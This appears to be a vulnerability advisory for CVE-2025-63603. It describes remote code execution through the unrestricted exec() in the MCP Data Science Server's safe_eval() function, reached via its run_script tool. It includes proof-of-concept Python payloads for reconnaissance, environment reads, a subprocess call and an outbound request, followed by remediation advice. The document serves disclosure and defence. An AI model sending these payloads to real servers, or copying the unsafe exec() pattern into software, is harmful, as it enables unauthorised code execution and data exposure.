





# CVE-2025-63603

## Summary

A critical command injection vulnerability has been identified in the MCP Data Science Server's `safe_eval()` function.

Despite its name suggesting safety, this function allows arbitrary Python code execution with full system privileges, enabling complete system compromise.

---

## Details

### Vulnerability Overview

The MCP Data Science Server exposes a script execution capability (attack vector: `run_script` tool).  
User-supplied Python code is passed into `ScriptRunner.safe_eval()` and executed on the server.

### Vulnerable Code Location

- **File**: `src/mcp_server_ds/server.py`
- **Function**: `ScriptRunner.safe_eval()` (around **Line 108**)

### Root Cause

Three security design flaws combine to create full Remote Code Execution (RCE):

1. **Unsafe `exec()` usage**
   - User-controlled input is executed directly using `exec(script, ...)`.

2. **Missing `__builtins__` restriction (CRITICAL)**
   - The globals dictionary passed to `exec()` does **not** define `__builtins__`.
   - When `__builtins__` is missing, Python automatically injects built-in functions (e.g., `__import__`, `open`, `eval`, `exec`), which enables trivial sandbox escape.

3. **No input validation**
   - The server performs no allowlist validation (AST parsing, allowed modules, safe nodes, etc.) before execution.

### Taint Flow

- **Taint 01: Tool Entry Point (User Input)**
  - User provides an arbitrary Python script through the `run_script` tool.

- **Taint 02: Vulnerable Sink (`exec`)**
  - `ScriptRunner.safe_eval()` executes the untrusted script with `exec()`.

```
User Input (run_script tool)
    ↓
ScriptRunner.safe_eval(script)
    ↓
exec(script, globals, locals)  ← Arbitrary code execution (RCE)
    ↓
OS / File / Network operations
```

---

## PoC

> ⚠️ Run the following PoC **only in an isolated test environment** you own/control.

### Test Environment

- Target: MCP Data Science Server (`mcp-server-data-exploration`)
- OS: Windows 10
- Python: 3.11.9
- Attack Vector: `run_script` tool

### Steps to Reproduce

1. Launch the MCP Data Science Server (vulnerable version).
2. Invoke the `run_script` tool and supply the payload(s) below as the script body.
3. Observe that the server executes the code and returns/prints the output.

### Attack Examples

#### Phase 1: System Information Gathering

```python
print("=== Command Injection PoC - System Information ===")
import sys, os, platform, getpass
print(f"Python Version: {sys.version}")
print(f"Operating System: {platform.system()} {platform.release()}")
print(f"Current User: {getpass.getuser()}")
print(f"Working Directory: {os.getcwd()}")
```



---

#### Phase 2: Environment Variable Access

```python
import os
critical_vars = ['PATH', 'USERNAME', 'USERPROFILE']
for var in critical_vars:
    print(f"{var}: {os.environ.get(var)}")
```



---

#### Phase 3: File System Reconnaissance

```python
import os
print("User directory contents:")
items = os.listdir(os.path.expanduser('~'))
for item in items[:8]:
    print(f"  {item}")
```



---

#### Phase 4: System Command Execution

```python
import subprocess
result = subprocess.run(['whoami'], capture_output=True, text=True)
print(f"Command Output: {result.stdout.strip()}")
```



---

#### Phase 5: Network Information & External Connectivity

```python
import socket, urllib.request
print(f"Local IP: {socket.gethostbyname(socket.gethostname())}")
response = urllib.request.urlopen('http://httpbin.org/ip')
print(f"External IP: {response.read().decode()}")
```



---

## Impact

This is a critical **Command Injection / Remote Code Execution (RCE)** vulnerability.

Attackers can:

- Disclose system/user/network information
- Read/write files in accessible directories (including credentials/configuration files)
- Execute arbitrary OS commands (malware installation, persistence, lateral movement)
- Perform internal reconnaissance and data exfiltration

**Severity**: CRITICAL

---

## Recommendations

1. **Explicitly restrict `__builtins__`**
   - Define `__builtins__` explicitly and only allow minimal safe functions.
   - Never allow `__import__`, `open`, `eval`, `exec`, `getattr`, etc.

2. **Replace `exec()` with safer alternatives**
   - Use AST allowlisting (restrict nodes/operations)
   - Use a restricted execution engine (e.g., `RestrictedPython`)
   - Run script execution inside hardened sandbox/container with strict permissions

3. **Add validation & security testing**
   - Introduce allowlist policies (modules, functions, operations)
   - Add test cases for sandbox bypass and RCE attempts

---

**reported by:** Team off-course (K-Shield.Jr 15th )
